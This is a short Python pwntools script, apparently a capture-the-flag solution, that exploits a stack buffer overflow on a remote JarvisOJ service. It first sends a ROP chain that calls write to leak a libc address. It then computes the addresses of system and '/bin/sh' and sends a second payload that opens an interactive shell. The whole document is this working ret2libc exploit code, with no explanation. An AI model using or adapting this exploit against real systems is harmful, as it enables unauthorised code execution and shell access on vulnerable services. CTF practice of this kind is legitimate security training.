
from pwn import *

sh = remote('pwn2.jarvisoj.com',9879) 

level = ELF('./libc-2.19.so')

line = sh.readline()

junk = 'a'*0x88

fakebp = 'a'*4

writeplt=0x08048340

write = level.symbols['write']

system = level.symbols['system']

binsh = int(level.search('/bin/sh').next())

payload = junk + fakebp + p32(writeplt) +p32(0x0804844B)+p32(1) + p32(0x0804A018) +p32(4)
sh.sendline(payload)

write_addr = u32(sh.recv(4))

print hex(write_addr)

system_addr = write_addr - write + system

binsh_addr  = write_addr- write + binsh

payload = junk + fakebp + p32(system_addr)+ p32(binsh_addr)+ p32(binsh_addr)

sh.sendline(payload)

sh.interactive()
